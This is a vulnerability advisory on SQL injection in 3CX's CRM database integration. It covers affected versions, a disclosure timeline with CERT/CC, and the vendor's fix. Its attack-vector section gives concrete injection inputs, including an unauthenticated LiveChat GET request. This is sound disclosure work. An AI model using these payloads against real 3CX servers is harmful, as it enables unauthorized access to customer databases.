 # SQL Injection in 3CX CRM Integration
For the CRM integration, 3CX ships templates for connecting to various databases.  
In these templates, placeholders (`[FirstName]`,`[SearchText]`,`[Email]`) are used to populate the queries.  
User input is not sanitized and thus enables SQL injections.

## Affected Versions
- < 18.0.9.23
- < 20.0.0.1494

## Affected CRM Solutions
- Database MsSQL
- Database MySQL
- Database PostgreSQL

## Related Documentation
https://www.3cx.com/docs/sql-database-pbx-integration/

## Timeline
- 2023-10-11 - Discovery of the security issue by pure coincidence
- 2023-10-11 - Email to 3CX Data Protection Officer requesting a contact for Responsible Disclosure
- 2023-10-11 - Reply from 3CX customer support asking for my license details
- 2023-10-11 - Reply to 3CX that I do not provide license information as this has nothing to do with the matter
- 2023-10-12 - Opening a case with CERT/CC to assist me with contacting 3CX
- 2023-10-13 - CERT/CC accepted my case and tried to contact 3CX
- 2023-10-17 - Another contact attempt by me to 3CX customer support
- 2023-10-26 - Ask CERT/CC if they have received an answer from 3CX
- 2023-10-26 - CERT/CC received no answer, they try again
- 2023-11-02 - Email to 3CX CEO Nick Galea (with an e-mail address found online) -> no reply
- 2023-11-27 - CERT/CC informed me that the deadline they had set had expired and there was no response from 3CX
- 2023-11-28 - Request for CVE sent to MITRE
- 2023-12-03 - CVE was assigned
- 2023-12-14 - Publication
- 2023-12-15 - Tested whether 18.0 Update 9 is affected
- 2023-12-15 - Informed 3CX about the publication
- 2023-12-15 - Response from 3CX Operations Director
- 2023-12-15 - 3CX published a [blog post](https://www.3cx.com/blog/news/sql-database-integration/)
- 2023-12-17 - 3CX published a detailed [blog post](https://www.3cx.com/blog/news/sql-database-integration-update/)

## Fix
3CX will soon provide a hotfix (18.0.9.23, 20.0.0.1494) which fixes the issue, until then the only option is to deactivate the CRM integration by setting the CRM solution to `None` (see blog post for illustrated instructions).

## Attack Vectors
The CRM integration queries are executed at various points, e.g. when creating or searching contacts in the WebClient and even the public LiveChat API.  
Below are two examples.  

### WebClient (authenticated)
- Statement __Search Contacts SQL Statement__: `SELECT * FROM tbl WHERE name LIKE '%[SearchText]%'`  
- Perform contact search: `'OR 1=1 --`  
- Executed SQL Query: `SELECT * FROM tbl WHERE name LIKE '%'OR 1=1 --%'`  

### LiveChat API (unauthenticated)
- Statement __Lookup By Email__: `SELECT * FROM tbl WHERE email = '[Email]'`  
- GET request: `https://3cx-hostname/MyPhone/c2clogin?login=true&c2cid=LiveChatXXXX&email=x%27--%40example.com&displayname=x`  
- Executed SQL Query: `SELECT * FROM tbl WHERE email = 'x'--@example.com'`  
